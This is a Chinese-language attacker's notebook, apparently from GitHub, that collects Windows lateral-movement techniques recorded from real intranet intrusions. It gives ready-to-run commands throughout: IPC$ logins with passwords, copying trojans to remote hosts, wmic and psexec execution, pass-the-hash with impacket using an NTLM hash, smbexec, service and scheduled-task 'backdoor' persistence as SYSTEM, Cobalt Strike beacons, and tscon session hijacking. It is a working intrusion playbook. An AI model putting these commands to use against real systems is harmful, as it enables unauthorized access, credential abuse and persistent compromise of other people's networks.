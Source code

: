 实战中记录下横向的一些方法，打内网第一步是免杀，其次是横向扩展。

## 0x00 碰见的横向移动方法总结1_IPC（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    查看远程主机文件
    
    
    dir \\192.168.52.143\c$
    dir \\192.168.52.143\c$\xx文件夹
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\c$\Windows\Temp\ma.exe
    shell copy 123.exe \\192.168.250.50\c$
      
    wmic远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    也可以使用psexec进行远程执行
    
    psexec.exe -accepteula \\192.168.41.150 -h -d c:\wanli.exe
    
    如果发现很久没有上线，可能目标不出网

## 0x01 横向移动方法总结2_beacon
 
    SMB Beacon使用命名管道和父级命名管道进行通信,所以利用他可进行横向移动
    
    使用条件
    
    使用SMB的主机必修接受445端口打开
    只能链接由同一Cobalt Strike实例管理的Beacon
## 0x02 横向移动方法3_PTH攻击

    psexec工具功能之一是远程启动交互式shell,这个工具不需要对方开启3389端口，只需要开启admin$共享即可。
    
    使用方法1
    
    1.psexec 需要建立ipc连接进行横向移动
    
     net use \\192.168.3.144\ipc$ “admin!@#45” /user:"administrator"  #和对方建立IPC链接，出现弹框点击agree
     psexec \\192.168.3.64 -s cmd cmd     #   -s,表示以system权限运行窗口，成功返回目标主机system权限窗口
     
    2.ps不需要建立ipc连接进行横向移动
     
     前提开启admin$共享
    
     psexec \\192.168.3.144 -u administrator -p admin123！！ -s cmd   #实战中碰见很多未知问题，可以换其他的横向方法
     
     注意官方自带的psexec只能通过明文进行传递攻击，密码是行不通的，例如 psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144 是不可以的
     
    3.利用impacket中的工具包进行横向渗透，可解决密文攻击问题
    
      impacket工具包里有个psexec，可进行密文传递攻击，下载地址：https://github.com/maaaaz/impacket-examples-windows
      
      psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144
      
      这块记录给自己留个作业，可以写个工具，针对不同的用户和密码进行组合后进行喷洒。
    
    4.smbexec无需IPC连接进行横向移动
    
      smbexec.exe mssql:Admin@1234@192.168.251.252 # 连接本地用户组
      
      smbexec.exe ROOTKIT.ORG/administrator:admin!@#45@192.168.3.144  # 连接域内用户
      
      ![图片](https://user-images.githubusercontent.com/118274389/229289834-9cdb8adb-9302-47bb-9925-609ac5db69e6.png)

      
    以上方法CS里自带该功能。

## 0x03 横向移动方法4_票据攻击

## 0x04 横向移动方法5_远控攻击

  远控攻击就是给目标装一些免安装的远控软件，例如：向日葵、todesk

  https://github.com/wafinfo/Sunflower_get_Password
  
  
## 0x05 利用WMI进行横向移动攻击

  WMI的全名为（Windows Management Instrumentation）由于安全厂商开始将PsExec加入了黑名单，所以攻击者暴露的可能性陡然增加。根据研究情况来看，Windows操作系统默认不会将WMI的   操作记录到日志当中，而且因为采用的是无文件攻击，所以导致WMI具有极高的隐蔽性。由此，越来越多的APT开始使用WMI进行攻击，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执   行、权限持久化等操作。
  Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以在本地或者远程管理计算机系统。通过135端口进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系   统留下痕迹。
  
  利用系统自带的wmi进行明文横向扩展
  
  wmic /node:192.168.3.144 /user:administrator /password:admin!@#45 process call create "md.exe /c ipconfig >C:\3.txt"
  
  在使用自带的wmic时，无回显，ipconfig这条命令显示的内容保存在3.txt文件中，并且是在对方的主机中，较为鸡肋。

## 0x06 利用impacket工具包中的wmiexec进行横向移动

   命令：wmiexec ./Administrator:admin!@#45@192.168.3.144 "whoami" ##如果直接上CS的话，上线后的权限为administrator
   
   hash攻击命令：wmiexec -hashes :518b98ad4178a53695dc997aa02d455c Administrator@192.168.3.73 "whoami"
   
 ## 0x07 IPC+windows服务进行横向移动
 
    该方法横向是将木马传入到对方机器里，通过SC命令创建window来指向该传入的木马，重启该服务或者重启机器达到上线CS的目的，该横向步骤如下；
    
    1.创建IPC$连接。
    
    2.将要运行的服务拷贝到目标机器。
    
    3.执行 sc \\192.168.3.144 create cmd binpath="c:\cmd.bat"
    
    参考文章：https://www.freesion.com/article/2259895176/
    
 ## 0x08 IPC+计划任务进行横向移动
 
     利用AT进行横向移动
 
     1.先建立IPC任务 net use \\192.168.3.144\ipc$ "admin!@#45"/user:rookit.org\administrator
    
     2.添加添加用户bat脚本，也可以添加木马脚本
     
     3.将bat脚本发送到目标机器copy 1.bat \\192.168.3.144\c$
     
     4.利用at启动该bat脚本 at \\192.168.1.144 20:05 c:\adduser.bat （2008及以后系统不在使用at命令，可以尝试其他命令进行启动，如schtasks）
     
      每一分钟启动一次shell.exe木马
     
     schtasks /create /s 192.168.183.130 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f
     
     在没有建立ipc连接前提，可以添加账户密码方式进行启动shell.exe木马（启动成功前提：具有管理员权限）
     
     schtasks /create /s 192.168.183.130 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f
     
     要是碰见schtasks启动不成功，可以尝试psexec、wmiexec等工具
 
      参考：https://cloud.tencent.com/developer/article/1743842
 
   
  
  
## 0x09 其他横向技巧

  Windows Server 2012及以上不提取密码登录Administrator桌面（登录这个桌面目的是看看Administrator桌面有啥，方便横向）
  
  2012及高版本想要得到密码，只能通过修改注册表，然后让管理员重新登录主机才能得到密码，一般服务器重新进行登录时候很少。我们可以通过一些技巧得到Administrator权限，
  
  拿到shell后，whoami是system权限，可以添加用户后，上隧道把远程桌面代理出来，此时的权限仍然是system权限
  
  此时想要得到Administrator权限步骤如下：
  
  1.psexec启动一个system权限的cmd  命令：psexec.exe -s -i cmd.exe  
  
  2.query user 
  
  3.查看administrator会话id   
  
  4.tscon 1 切换会话id为Administrator权限
  
  
  
  
  


